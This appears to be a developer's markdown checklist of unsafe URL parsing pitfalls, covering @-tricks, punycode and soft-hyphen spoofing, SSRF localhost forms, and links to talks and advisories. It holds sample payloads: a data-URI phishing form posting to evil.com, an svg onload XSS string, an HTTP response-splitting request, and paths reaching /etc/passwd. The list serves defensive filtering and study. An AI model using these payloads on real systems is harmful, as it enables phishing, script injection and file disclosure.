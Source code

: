 #### Unsafe URI

- `http://example.com` and `http://example.com.` are the same, but could treated differently (ex: cookies). See [Why does putting a dot after the URL remove login information?](https://superuser.com/questions/1467958/why-does-putting-a-dot-after-the-url-remove-login-information/1468139#1468139)
- `http://evil.com/@good.com` the domain is `evil.com`
- `http://good.com%2f@evil.com/` the domain is `evil.com`
- `https://evil.com/..;@good.com:%344/` the domain is `evil.com`. [HOW FRCKN' HARD IS IT TO UNDERSTAND A URL?! - uXSS CVE-2018-6128 - YouTube](https://www.youtube.com/watch?v=0uejy9aCNbI)
- `http://1.1.1.1 &@2.2.2.2# @3.3.3.3` (with spaces) the host is `2.2.2.2` RFC 3986: "In some cases, extra whitespace (spaces, line-breaks, tabs, etc.) may have to be added to break a long URI across lines. The whitespace should be ignored when the URI is extracted"
    - [#HITBGSEC 2017 SG Conf D1 - A New Era Of SSRF - Exploiting Url Parsers - Orange Tsai - YouTube](https://www.youtube.com/watch?v=D1S-G8rJrEk)
    - [Anomalie 32085 : \[Security\] A New Era of SSRF - Exploiting URL Parser in Trending Programming Languages! - Python tracker](https://bugs.python.org/issue32085)
    - [Orange: How I Chained 4 vulnerabilities on GitHub Enterprise, From SSRF Execution Chain to RCE!](http://blog.orange.tw/2017/07/how-i-chained-4-vulnerabilities-on.html)
    - https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf
- `file://my.domain/tmp/example.html` the domain is `my.domain` (but often ignored)
- `https://accounts.youtube.com/accounts/SetSID?continue=https://www.google.com/amp/s/evil.com/evil.swf` (redirect to `evil.swf`) redirection (account login, etc.) don't know if the trusted target, has been compromized (or allow this kind of redirection)
- `http://good.com%0a%0a%0aTrust%20me.%20It%27s%20totally%20legit.%09%09%09%09%09%0a%0a%0a%0a%0a%0a%0a%0a@evil.com/` is a valid URL, but could be displayed in browser URL bar (or link hover) as `http://good.com`
- `http://x%0aContent-Length%3a99%0a%0a.good.com/` and `http://good.com%00.evil.com/` (null char wrongly used to break the domain as `victim.website`). See [Webkit URLs](https://alf.nu/WebkitURLs)
- `xn--wkd-8cdx9d7hbd.org` is not equal to `wіkіpеdіа.org`, but look the same in browser address bar. It's a valid [IDN](https://en.wikipedia.org/wiki/Internationalized_domain_name#ASCII_spoofing_concerns) which use [punycode](https://en.wikipedia.org/wiki/Punycode) encoding
- on `http://good.com` URL `//evil.com` has the domain `evil.com`
- filter out data URIs:
	* `data:text/html;charset=UTF-8,https://good.com/some/long/path/follwed/by/html/<html><body><form action=http://evil.com><button>Fake re-login form</button></form></body></html>`
	* `data:text/html;charset=UTF-8,alert(1)/*,<svg%20onload=eval(unescape(location))><title>*/;alert(2);function%20text(){};function%20html(){}`
	Retect to parameter `http://victim.com/?param=value%0d%0aContent-Length:%200%0d%0a%0d%0aHTTP/1.1%20200%20OK%0d%0aContent-Type:%20text/html%0d%0aContent-Length:%2035%0d%0a%0d%0a<html>Sorry,%20System%20Down</html>`
	https://www.owasp.org/index.php/Testing_for_HTTP_Splitting/Smuggling_(OTG-INPVAL-016)
- filter out file URIs. If you get its content (like PHP `file_get_contents()`): `file:///etc/passwd`
	* [If your code accepts URIs as input..](https://blog.steve.fi/If_your_code_accepts_URIs_as_input__.html)
- `http://e­x­a­m­p­l­e­.­com` is not `http://example.com` (use SHY - U+00AD chars)
	> Soft hyphens have been used to obscure malicious domains or URLs in e-mail spam.
	[Soft hyphen — Wikipedia](https://en.wikipedia.org/wiki/Soft_hyphen#Security_issues)
	
	Many browsers ignore SHY chars in URL. That means `http://e­x­a­m­p­l­e­.­com` will be interpreted as `http://example.com`
- Some chars in file path are not supported on Windows: [Git for Windows accidentally creates NTFS alternate data streams](http://latkin.org/blog/2016/07/20/git-for-windows-accidentally-creates-ntfs-alternate-data-streams/) with char `:` in filename
- `urlencode()` and `rawurlencode()` for URLs `$url = 'http://localhost/' . rawurlencode($page) . '?foo=' . urlencode($foo) . '&bar=' . urlencode($bar)`. The same with `encodeURI()`, `encodeURIComponent()`
	See also [`http_build_query()`](http://php.net/manual/en/function.http-build-query.php) and [`parse_url()`](http://docs.php.net/manual/en/function.parse-url.php)
- `snprintf(&s, 0x80u, "texts/%s.json", ".////////////////////////////////////////////////////////////////////////////////////////../../../../../etc/passwd")` overflow the 128 byte string value
- `http://localhost`, `http://0`, `http://[::0]`
